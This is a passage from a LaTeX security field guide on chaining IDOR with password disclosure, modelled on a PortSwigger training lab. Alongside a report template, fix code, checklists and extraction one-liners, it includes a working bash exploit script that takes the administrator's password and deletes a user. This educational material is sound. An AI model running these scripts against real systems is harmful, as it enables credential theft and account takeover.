    sys.exit(0 if success else 1)
\end{lstlisting}

\subsection{Bash Exploitation Script}

\begin{lstlisting}[language=bash,caption={Command-line exploitation with curl}]
#!/bin/bash
# IDOR + Password Disclosure Exploit
# Usage: ./exploit.sh https://target.example.com

BASE_URL="$1"

if [ -z "$BASE_URL" ]; then
    echo "Usage: $0 <BASE_URL>"
    exit 1
fi

echo "[*] Target: $BASE_URL"

# Phase 1: Get CSRF and login as wiener
echo "[*] Phase 1: Logging in as wiener..."
CSRF=$(curl -s -c cookies.txt "$BASE_URL/login" | \
       grep -oP 'name="csrf"\s+value="\K[^"]+')

curl -s -b cookies.txt -c cookies.txt \
    -d "csrf=$CSRF&username=wiener&password=peter" \
    "$BASE_URL/login" > /dev/null

echo "[+] Logged in"

# Phase 2: IDOR - Access admin account
echo "[*] Phase 2: Exploiting IDOR..."
ADMIN_PAGE=$(curl -s -b cookies.txt "$BASE_URL/my-account?id=administrator")

if echo "$ADMIN_PAGE" | grep -qi "administrator"; then
    echo "[+] Accessed administrator account!"
else
    echo "[-] IDOR failed"
    exit 1
fi

# Extract password
ADMIN_PASSWORD=$(echo "$ADMIN_PAGE" | \
    grep -oP 'name="password"[^>]*value="\K[^"]+' | head -1)

if [ -z "$ADMIN_PASSWORD" ]; then
    ADMIN_PASSWORD=$(echo "$ADMIN_PAGE" | \
        grep -oP 'value="[^"]+"\s*[^>]*name="password"' | \
        grep -oP 'value="\K[^"]+')
fi

echo "[+] Admin password: $ADMIN_PASSWORD"

# Phase 3: Login as admin
echo "[*] Phase 3: Logging in as administrator..."
rm -f cookies.txt
CSRF=$(curl -s -c cookies.txt "$BASE_URL/login" | \
       grep -oP 'name="csrf"\s+value="\K[^"]+')

curl -s -b cookies.txt -c cookies.txt \
    -d "csrf=$CSRF&username=administrator&password=$ADMIN_PASSWORD" \
    "$BASE_URL/login" > /dev/null

echo "[+] Logged in as administrator"

# Phase 4: Delete carlos
echo "[*] Phase 4: Deleting carlos..."
curl -s -b cookies.txt "$BASE_URL/admin/delete?username=carlos" > /dev/null

echo "[+] Carlos deleted!"

# Cleanup
rm -f cookies.txt
echo "[+] Exploit complete!"
\end{lstlisting}

% ============================================================
\section{Evidence Collection and Reporting}
% ============================================================

\subsection{Minimum Evidence Requirements}

\begin{enumerate}
  \item \textbf{IDOR Evidence}
  \begin{itemize}
    \item Request showing access to admin account with low-privilege session
    \item \code{GET /my-account?id=administrator} with wiener's cookie
    \item Response showing administrator's account data
  \end{itemize}
  
  \item \textbf{Password Disclosure Evidence}
  \begin{itemize}
    \item Screenshot/snippet of HTML showing password in \code{value} attribute
    \item Highlighted: \code{<input type="password" name="password" value="ACTUAL_PASSWORD">}
  \end{itemize}
  
  \item \textbf{Account Takeover Evidence}
  \begin{itemize}
    \item Successful login as administrator using extracted password
    \item Access to admin panel
  \end{itemize}
  
  \item \textbf{Impact Demonstration}
  \begin{itemize}
    \item Privileged action executed (user deletion, settings change)
    \item Before/after state comparison
  \end{itemize}
\end{enumerate}

\subsection{Report Template}

\begin{lstlisting}[caption={Vulnerability report template}]
# Vulnerability Report: IDOR + Password Disclosure Chain

## Executive Summary
The application's /my-account endpoint accepts a user-controlled 'id' 
parameter without authorization checks, AND returns the user's current 
password pre-filled in a masked input field. This allows any authenticated 
user to extract the administrator's password and achieve full account 
takeover.

## Severity Assessment
- CVSS v3.1 Base Score: 9.1 (Critical)
- Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
- Primary CWE: CWE-639 (IDOR), CWE-256 (Plaintext Password)

## Technical Details

### Vulnerability Chain
1. IDOR on /my-account endpoint
2. Password disclosure in HTML response
3. Account takeover via extracted credentials
4. Administrative privilege abuse

### Proof of Concept

#### Step 1: Login as wiener (low-privilege)
POST /login
username=wiener&password=peter

#### Step 2: Access administrator's account (IDOR)
GET /my-account?id=administrator
Cookie: session=[wiener's session]

Response contains:
<input type="password" name="password" value="[ADMIN_PASSWORD]">

#### Step 3: Login as administrator
POST /login
username=administrator&password=[EXTRACTED_PASSWORD]

#### Step 4: Delete user
GET /admin/delete?username=carlos

## Impact Analysis
- Complete account takeover of any user including administrator
- Full administrative access to application
- Ability to delete/modify any user
- Potential data breach of all user credentials

## Root Cause Analysis
1. Missing object-level authorization on account endpoint
2. Improper credential handling - passwords stored in retrievable form
3. Password pre-filled in client-side HTML

## Remediation Recommendations
1. Remove 'id' parameter - derive user identity from session
2. NEVER store passwords in retrievable form (use bcrypt/Argon2)
3. NEVER pre-fill password fields with existing values
4. Implement proper password reset flow instead of password display
5. Add object-level authorization checks on all user-specific endpoints

## References
- CWE-639: Authorization Bypass Through User-Controlled Key
- CWE-256: Plaintext Storage of a Password
- OWASP: Broken Access Control
\end{lstlisting}

% ============================================================
\section{Remediation Patterns}
% ============================================================

\subsection{Fix 1: Eliminate Password Disclosure}

\begin{criticalbox}[Fundamental Credential Handling Rules]
\begin{enumerate}
  \item \textbf{NEVER store plaintext passwords} - Use bcrypt, Argon2, or scrypt
  \item \textbf{NEVER display existing passwords} - Use password reset flows
  \item \textbf{NEVER pre-fill password fields} - Always leave empty
  \item \textbf{Require current password for changes} - Verify identity before change
\end{enumerate}
\end{criticalbox}

\begin{lstlisting}[language=javascript,caption={Node.js: Proper password storage and change flow}]
const bcrypt = require('bcrypt');

// NEVER: Store plaintext passwords
// user.password = 'plaintext';

// CORRECT: Hash passwords before storage
async function createUser(username, password) {
    const saltRounds = 12;
    const hashedPassword = await bcrypt.hash(password, saltRounds);
    
    await db.users.create({
        username: username,
        password: hashedPassword  // Store only the hash
    });
}

// NEVER: Return password in account page
// res.render('account', { user: user });  // If user has password field!

// CORRECT: Never include password in response
app.get('/my-account', requireAuth, async (req, res) => {
    const userId = req.session.userId;  // Derive from session!
    const user = await db.users.findById(userId);
    
    res.render('account', {
        username: user.username,
        email: user.email
        // NO PASSWORD FIELD!
    });
});

// CORRECT: Password change requires current password verification
app.post('/change-password', requireAuth, async (req, res) => {
    const { currentPassword, newPassword } = req.body;
    const user = await db.users.findById(req.session.userId);
    
    // Verify current password
    const valid = await bcrypt.compare(currentPassword, user.password);
    if (!valid) {
        return res.status(401).send('Current password incorrect');
    }
    
    // Hash and save new password
    const newHash = await bcrypt.hash(newPassword, 12);
    await db.users.updatePassword(user.id, newHash);
    
    res.send('Password updated');
});
\end{lstlisting}

\subsection{Fix 2: Remove IDOR Vulnerability}

\begin{lstlisting}[language=javascript,caption={Node.js: Derive user from session, not parameter}]
// VULNERABLE: User ID from request parameter
app.get('/my-account', (req, res) => {
    const userId = req.query.id;  // Attacker-controlled!
    const user = await db.users.findById(userId);
    res.render('account', { user });
});

// SECURE: Derive user from authenticated session
app.get('/my-account', requireAuth, (req, res) => {
    const userId = req.session.userId;  // Server-controlled
    const user = await db.users.findById(userId);
    res.render('account', { 
        username: user.username,
        email: user.email
        // No password!
    });
});
\end{lstlisting}

\subsection{Fix 3: Django Implementation}

\begin{lstlisting}[language=python,caption={Django: Secure account view}]
from django.contrib.auth.decorators import login_required
from django.contrib.auth.hashers import make_password, check_password
from django.http import HttpResponseForbidden

@login_required
def my_account(request):
    """Account page - derive user from session, never show password."""
    # User is automatically derived from request.user (session-based)
    # NEVER accept user ID from request parameters
    
    return render(request, 'account.html', {
        'username': request.user.username,
        'email': request.user.email,
        # NO PASSWORD FIELD IN TEMPLATE!
    })

@login_required
def change_password(request):
    """Password change - require current password verification."""
    if request.method != 'POST':
        return HttpResponseForbidden()
    
    current = request.POST.get('current_password')
    new_pass = request.POST.get('new_password')
    
    # Verify current password
    if not check_password(current, request.user.password):
        return render(request, 'change_password.html', {
            'error': 'Current password is incorrect'
        })
    
    # Set new password (Django handles hashing)
    request.user.set_password(new_pass)
    request.user.save()
    
    return redirect('account')
\end{lstlisting}

\subsection{HTML Template Fix}

\begin{lstlisting}[language=html,caption={Secure password change form template}]
<!-- VULNERABLE: Pre-filled password field -->
<form method="POST" action="/change-password">
    <label>Password</label>
    <input type="password" name="password" value="{{ user.password }}">
    <button>Update</button>
</form>

<!-- SECURE: No pre-fill, requires current password -->
<form method="POST" action="/change-password">
    <div>
        <label>Current Password</label>
        <input type="password" name="current_password" required>
    </div>
    <div>
        <label>New Password</label>
        <input type="password" name="new_password" required>
    </div>
    <div>
        <label>Confirm New Password</label>
        <input type="password" name="confirm_password" required>
    </div>
    <button type="submit">Change Password</button>
</form>
\end{lstlisting}

% ============================================================
\section{Testing Checklist}
% ============================================================

\subsection{IDOR Testing Checklist}

\begin{itemize}[label=$\square$]
  \item Identify account/profile endpoints with ID parameters
  \item Note your own user ID after authentication
  \item Test changing ID to other users (administrator, carlos, etc.)
  \item Compare responses with legitimate vs. manipulated IDs
  \item Document any unauthorized data access
\end{itemize}

\subsection{Password Disclosure Testing Checklist}

\begin{itemize}[label=$\square$]
  \item Login and navigate to account/settings page
  \item View page source (Ctrl+U)
  \item Search for ``password'' in source
  \item Check if any input fields have value attributes with passwords
  \item Use DevTools to inspect password fields
  \item Test: \code{document.querySelector('input[type=password]').value}
  \item Check API responses for password fields
\end{itemize}

\subsection{Attack Chain Testing Checklist}

\begin{itemize}[label=$\square$]
  \item Login as low-privilege user
  \item Access target user's account page via IDOR
  \item Extract password from response
  \item Logout and login as target user
  \item Verify successful authentication
  \item Execute privileged action
  \item Document complete attack chain
\end{itemize}

% ============================================================
\section{Quick Reference}
% ============================================================

\subsection{Password Extraction Patterns}

\begin{longtable}{@{}lp{8cm}@{}}
\toprule
\textbf{Method} & \textbf{Command/Technique} \\
\midrule
View Source & \kbd{Ctrl+U} $\rightarrow$ Search ``password'' \\
DevTools Elements & \kbd{F12} $\rightarrow$ Find password input $\rightarrow$ Check value \\
DevTools Console & \code{document.querySelector('input[name=password]').value} \\
curl + grep & \code{curl -s URL | grep -oP 'value="\textbackslash K[^"]+'} \\
Python/BeautifulSoup & \code{soup.find('input', \{'name': 'password'\})['value']} \\
\bottomrule
\caption{Password extraction techniques}
\end{longtable}

\subsection{Common IDOR Parameters}

\begin{longtable}{@{}ll@{}}
\toprule
\textbf{Parameter} & \textbf{Example URL} \\
\midrule
\code{id} & \code{/my-account?id=administrator} \\
\code{user} & \code{/profile?user=admin} \\
\code{userId} & \code{/account?userId=12345} \\
\code{uid} & \code{/settings?uid=admin} \\
\code{username} & \code{/account?username=administrator} \\
\bottomrule
\caption{Common IDOR parameter names}
\end{longtable}

% ============================================================
\section{Additional Resources}
% ============================================================

\subsection{Training Labs}

\begin{itemize}
  \item \textbf{PortSwigger Web Security Academy}: Lab ``User ID controlled by request parameter with password disclosure''
  \item \textbf{OWASP WebGoat}: Authentication and Access Control modules
  \item \textbf{HackTheBox}: Various IDOR and credential exposure challenges
\end{itemize}

\subsection{References}

\begin{itemize}
  \item OWASP: Broken Access Control
  \item OWASP: Password Storage Cheat Sheet
  \item CWE-639: Authorization Bypass Through User-Controlled Key
  \item CWE-256: Plaintext Storage of a Password
  \item CWE-549: Missing Password Field Masking
\end{itemize}

% ============================================================
\section{Document History}
% ============================================================

\begin{table}[h]
\centering
\begin{tabular}{@{}llp{8cm}@{}}
\toprule
\textbf{Version} & \textbf{Date} & \textbf{Changes} \\
\midrule
1.0 & 2025-01-01 & Initial field guide \\
2.0 & 2026-01-21 & Comprehensive expansion: added attack chain visualization, multi-phase exploitation scripts, password disclosure detection techniques, HTML template fixes, complete remediation patterns \\
\bottomrule
\end{tabular}
\caption{Document revision history}
\end{table}

\end{document}